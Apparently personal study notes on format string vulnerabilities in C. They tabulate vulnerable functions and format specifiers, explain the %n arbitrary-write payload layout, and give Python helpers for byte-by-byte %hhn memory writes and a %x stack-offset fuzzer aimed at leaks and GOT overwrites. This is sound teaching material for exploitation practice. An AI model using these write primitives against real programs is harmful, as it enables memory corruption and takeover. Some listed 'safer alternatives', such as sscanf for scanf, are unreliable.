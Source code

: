 Navigation: [[Binary Exploitation]]

---
# Introduction
Format string vulnerabilities occur when a user input is used directly in a formatting function without any validation. These functions interpret format specifiers to read or write memory. When we can control the format string, we can control it to read or write unintended memory.
# Table of Contents
# List of Vulnerable Functions
| Function       | Use                                         | Why It's Vulnerable                                   | Safer Alternative          |
|----------------|---------------------------------------------|-----------------------------------------------------|----------------------------|
| `printf`       | Prints formatted output to stdout           | Accepts user-controlled format strings              | `printf_s`, `snprintf`    |
| `fprintf`      | Prints formatted output to a file           | Accepts user-controlled format strings              | `fprintf_s`               |
| `sprintf`      | Writes formatted output to a string buffer  | Lacks buffer size checks, accepts uncontrolled input| `snprintf`                |
| `vsprintf`     | Writes formatted output using a va_list     | Lacks buffer size checks, accepts uncontrolled input| `vsnprintf`               |
| `scanf`        | Reads formatted input                      | Accepts uncontrolled format strings, stack overflows| `sscanf`                  |
| `vscanf`       | Reads formatted input using a va_list       | Accepts uncontrolled format strings, stack overflows| `vsscanf`                 |
| `snprintf`     | Writes formatted output with buffer size    | Can still misuse user-controlled format strings     | Validate inputs explicitly|
| `vprintf`      | Prints formatted output using a va_list     | Accepts user-controlled format strings              | Validate inputs explicitly|
# Format Specifiers

| Format Specifier | Output                                   | Description                                                               |
| ---------------- | ---------------------------------------- | ------------------------------------------------------------------------- |
| `%d`             | Signed decimal integer                   | Prints an integer in base 10 (signed).                                    |
| `%i`             | Signed decimal integer                   | Similar to `%d`, accepts decimal, octal, or hex input.                    |
| `%u`             | Unsigned decimal integer                 | Prints an unsigned integer in base 10.                                    |
| `%o`             | Unsigned octal integer                   | Prints an integer in base 8.                                              |
| `%x`             | Unsigned hexadecimal integer (lowercase) | Prints an integer in base 16 using lowercase letters.                     |
| `%X`             | Unsigned hexadecimal integer (uppercase) | Prints an integer in base 16 using uppercase letters.                     |
| `%f`             | Decimal floating-point number            | Prints a floating-point number with a fixed number of decimal places.     |
| `%e`             | Scientific notation (lowercase)          | Prints a floating-point number in scientific notation with lowercase `e`. |
| `%E`             | Scientific notation (uppercase)          | Prints a floating-point number in scientific notation with uppercase `E`. |
| `%g`             | Shorter of `%f` or `%e` (lowercase)      | Chooses the more compact form between `%f` and `%e`.                      |
| `%G`             | Shorter of `%f` or `%E` (uppercase)      | Chooses the more compact form between `%f` and `%E`.                      |
| `%c`             | Single character                         | Prints the corresponding character for an integer value.                  |
| `%s`             | Null-terminated string                   | Prints a string starting at a given memory address.                       |
| `%p`             | Pointer address                          | Prints a memory address in hexadecimal format.                            |
| `%n`             | Number of characters written so far      | Writes the count of printed characters to an integer pointer.             |
| `%%`             | Literal `%`                              | Prints a literal `%` symbol.                                              |
Of these specifiers, here's the main ones we'll be interested in:
1. `%p`
2. `%n`
3. `%x`
4. `%d`
5. `%s`

Another very useful character is `$`. Printing `%2$d` prints the second argument to `printf` as a decimal. Note that we'll be grabbing arguments to `printf` in the order of calling convention, eventually reaching data on the stack.

Note that when we do an arbitrary write, our payload will look like this:
```
<little endian target addr>%<pad size>x%<arg buf location>n

In this, we'll be writing our target address, followed by a padding. The padding must be a decimal number representing the hex value we want to write to the target address. Lastly, we'll need the location of our input string on the stack.

We need the input string since %n reads the pointer at the given address to write there, so by writing the target address to that string, we can then utilize the pointer

Note that with padding, we'll need to subtract the total number of address bytes we wrote.

Next, we can send multiple writes to smaller portions of memory (we should, padding will print whitespaces and it'll be impossible with %ln due to the number of spaces needed to be printed). Our payload will looking something like (ignore the spaces, they exist for the sake of formatting):
<addr 1> <addr 2> <addr 3> <addr 4>
% <addr 1 pad - written bytes> x <arg buf> n
% <addr 2 pad - written bytes> x <arg buf + 1> n
...

Note that we'll need to be substracting total number of written bytes from each segment.
```

Here's a helper script to do that:
```python
def arb_write_8(addr,data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%10$hhn".encode()
    else:
        payload = f"%{data}c%10$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=p64(addr)

    # Send the payload
    send_format_string(payload)

def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
```

```python
# Simple fuzz script

for i in range(100):
    try:
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$x'.format(i).encode())
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```
# Common Attack Paths
1. Leaking Values
2. GOT Overwrite



# Further Reading
https://github.com/Mymaqn/The-danger-of-repetivive-format-string-vulnerabilities-and-abusing-exit-on-full-RELRO

https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

https://ir0nstone.gitbook.io/notes/binexp/stack/canaries

---
Navigation: [[Binary Exploitation]]